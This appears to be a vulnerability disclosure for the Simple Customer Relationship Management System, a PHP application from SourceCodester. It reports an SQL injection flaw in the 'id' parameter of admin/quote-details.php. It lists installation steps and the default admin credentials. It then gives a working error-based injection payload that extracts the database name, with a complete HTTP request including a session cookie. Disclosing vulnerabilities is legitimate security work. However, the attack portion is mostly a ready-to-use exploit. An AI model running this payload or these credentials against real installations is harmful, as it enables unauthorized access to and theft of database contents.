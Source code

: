 # Simple Customer Relationship Management (CRM) System has SQLI in /php-scrm/admin/quote-details.php
Author:Top-Zxp

vendors:https://www.sourcecodester.com/php/15895/simple-customer-relationship-management-crm-system-using-php-free-source-coude.html

## How to Run?

### Requirements

-   Download and Install any local web server such as XAMPP.
-   Download the provided source code zip file. (download button is located below)

### System Installation/Setup

-   Open your XAMPP Control Panel and start Apache and MySQL.
-   Extract the downloaded source code zip file.
-   Copy the extracted source code folder and paste it into the XAMPP's "htdocs" directory.
-   Browse the PHPMyAdmin in a browser. i.e. http://localhost/phpmyadmin
-   Create a new database named scrm_db.
-   Import the provided SQL file. The file is known as scrm_db.sql located inside the database folder.
-   Browse the Simple Customer Relationship Management (CRM) System in a browser. i.e. http://localhost/php-scrm/.

### Admin Default Access:

-   Username: admin
-   Password: admin123

## Payload
database:scrm_db

[+] Payload:php-scrm/admin/quote-details.php?1' and (select count(*) from information_schema.tables group by concat(0x7e,(select database()),0x7e ,floor(rand(0)*2))) --+

GET /php-scrm/admin/quote-details.php?id=1' and (select count(*) from information_schema.tables group by concat(0x7e,(select database()),0x7e ,floor(rand(0)*2))) --+ HTTP/1.1
Host: 192.168.248.137
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.248.137/php-scrm/admin/quote-details.php?id=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=lf9l068kt6hkbqhcettmhr0o3p
Connection: close

![image](https://user-images.githubusercontent.com/124124632/215967016-406966f1-31d3-45b1-b7d3-35104cb5be86.png)
![image](https://user-images.githubusercontent.com/124124632/215967081-89144946-7652-4412-a0cd-cecbcfaa0007.png)

